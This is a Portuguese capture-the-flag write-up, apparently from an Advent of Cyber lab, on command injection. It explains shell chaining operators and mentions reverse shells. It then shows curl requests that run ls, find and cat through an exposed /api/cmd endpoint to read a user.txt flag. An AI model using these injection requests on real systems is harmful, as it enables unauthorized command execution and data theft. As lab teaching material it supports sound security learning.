 # _**Contexto de Injeção de comadno**_
Dependendo da funcionalidade do aplicativo web, será necessário algum tipo de interação com o sistema host subjacente  
Isso geralmente é feito passando comandos brutos do sistema ou entradas para um shell de comando  

Exemplos de quando aplicativos web interagem com sistemas host incluem:
* Verificar estatísticas de monitoramento, por exemplo, RAM sendo usada, espaço livre em disco
* Processos de conversão de arquivos, por exemplo, o aplicativo da web receberia um arquivo de imagem que deseja converter em um tipo de imagem diferente
* Deixando a funcionalidade de depuração aberta; algumas estruturas têm funcionalidade de depuração opcional que envolve interação com o sistema de arquivos subjacente

Qualquer entrada controlada por um usuário não deve ser considerada confiável pelo servidor  
A entrada do usuário pode ser manipulada  
No caso de uma aplicação web usar comandos do sistema, um usuário pode manipular a entrada para executar comandos arbitrários do sistema  
Esse tipo de ataque é chamado de ataque de injeção de comando  

Ataques de injeção de comando são considerados extremamente perigosos; eles essencialmente permitem que um invasor execute comandos em um sistema  
A ação mais comum ao descobrir que você sofreu um ataque de injeção de comando é obter um shell reverso  
Shells reversos podem ser considerados backdoors  
Quando um invasor cria esse shell reverso, o servidor alvo atua como um cliente, executa o comando enviado por um invasor e, às vezes, envia a saída do comando de volta para o invasor  

***

**Diferentes maneiras de _code injection_**  
O aplicativo pode apenas pedir aos usuários que insiram comandos  
Este é o melhor cenário possível e tende a ser muito raro  
Tudo o que você precisa fazer é digitar um comando e o aplicativo web o executará no sistema subjacente  

**aplicativo filtra os comandos permitidos:**
Isso tende a ser mais comum do que o problema anterior  
Por exemplo, um aplicativo pode aceitar apenas o comando ping  
Você teria que enumerar quais comandos são permitidos e tentar usar o comando permitido para extrair dados  

**O aplicativo recebe como entrada um comando:**
Isso é ainda mais comum  
Um exemplo é quando um aplicativo recebe a entrada do comando ping e a passa para o comando ping no backend  

Se a entrada não for codificada ou filtrada, você pode usá-la para executar outros comandos.
* O operador && é usado com mais de um comando, por exemplo, ls && pwd. O segundo comando só é executado se o primeiro e o segundo forem bem-sucedidos. Você pode passar uma entrada contendo && other-command e o backend a executará com sucesso se ambos os comandos forem executados com sucesso.
* O comando | é usado para passar a saída de um comando para outro e também pode ser usado para executar comandos no servidor.
* O caractere ; também funciona bem. Na maioria dos shells, ele indica que um comando foi concluído. Você pode usá-lo para encadear comandos, como se a entrada fosse comando. Então você pode fornecer comando;outro-comando.

# _**Execução**_
Sabemos que o McSkidy encontrou o seguinte trecho: _/api/cmd_
O endpoint _/api/cmd_ geralmente é usado em APIs como uma interface para executar comandos — o "cmd" vem de "command"  
No entanto, o significado exato desse endpoint pode variar bastante dependendo do sistema ou aplicação em que ele está implementado  

Para testarmos, digitamos o seguinte comando e obtemos a saída abaixo: ```curl http://[ip_address]:3000/api/cmd/ls```

{"stdout":"bin\nboot\ndata\ndev\netc\nhome\nlib\nlib64\nlocal\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n","stderr":""}  

Apesar de aceitar a entrada, ainda não é o que queremos  
Ao usar URLs, lembre-se de codificar em URL os caracteres que não são aceitos  
Sabendo disso, busca-se um codificador de URL online e joga-se o comando ls -la  
```curl http://[ip_address]:3000/api/cmd/ls%20-la%20```

Obtemos uma resposta melhor  
Agora para o que queremos encontrar, user.txt 
Codificamos o comando abaixo  
> ```bash
> find / -type f -name user.txt 2>/dev/null
> ```

Executando o comando, temos o retorno mostrado abaixo  
```curl http://[ip_address]:3000/api/cmd/find%20%2F%20-type%20f%20-name%20user.txt%202%3E%2Fdev%2Fnull```

**/home/bestadmin/user.txt**

Basta codificar o comando abaixo e aplicar com o comando curl e teremos nosso retorno  
```cat /home/bestadmin/user.txt```  
> ```
> http://[ip_address]:3000/api/cmd/cat%20%2Fhome%2Fbestadmin%2Fuser.txt
> ```
